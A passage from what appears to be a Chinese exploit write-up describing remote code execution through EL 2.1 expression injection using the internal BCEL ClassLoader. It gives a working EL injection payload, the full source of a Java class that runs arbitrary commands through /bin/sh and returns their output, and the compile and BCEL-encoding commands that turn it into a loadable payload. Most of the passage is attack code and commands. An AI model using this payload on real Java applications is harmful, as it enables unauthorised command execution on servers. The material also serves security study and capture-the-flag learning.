   也失败了。

7.目前el 2.1 表达式可以实现的功能: ①newInstance() 无参构造一个类实例  ②调用对象 非可变参数的方法。

尝试调用恶意class `com.sun.org.apache.bcel.internal.util.ClassLoader`加载编码后的恶意class导致rce。

这里用 el 表达式表述就是：

```java
${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$evalClass').newInstance()}
```

具体步骤：

- 编写恶意 Java 类 `eval2.java`：

  ```java
  import java.io.BufferedReader;
  import java.io.InputStreamReader;
  
  public class eval2 {
  
      public String exec(String cmd) throws Exception {
  
          Process p = Runtime.getRuntime().exec(             // ***
                  new String[]{"/bin/sh", "-c", cmd});       // ***
  
          BufferedReader br = new BufferedReader(
                  new InputStreamReader(p.getInputStream()));
          BufferedReader err = new BufferedReader(
                  new InputStreamReader(p.getErrorStream()));
  
          StringBuilder sb = new StringBuilder();
          String line;
  
          while ((line = br.readLine()) != null)  sb.append(line).append('\n');
          while ((line = err.readLine()) != null) sb.append(line).append('\n');
  
          return sb.toString();
      }
  }
  ```

- 用 `javac` 编译成 `.class`

  ```
  javac --release 8 eval2.java
  ```

  得到`eval2.class`。

- `scp`拷贝到windows下使用[BCEL编码工具](https://github.com/f1tz/BCELCodeman/releases/tag/1.0)对`eval2.class`进行编码：

  ```shell
  java --add-exports java.xml/com.sun.org.apache.bcel.internal.classfile=ALL-UNNAMED -jar BCELCodeman.jar e .\eval2.class
  ```
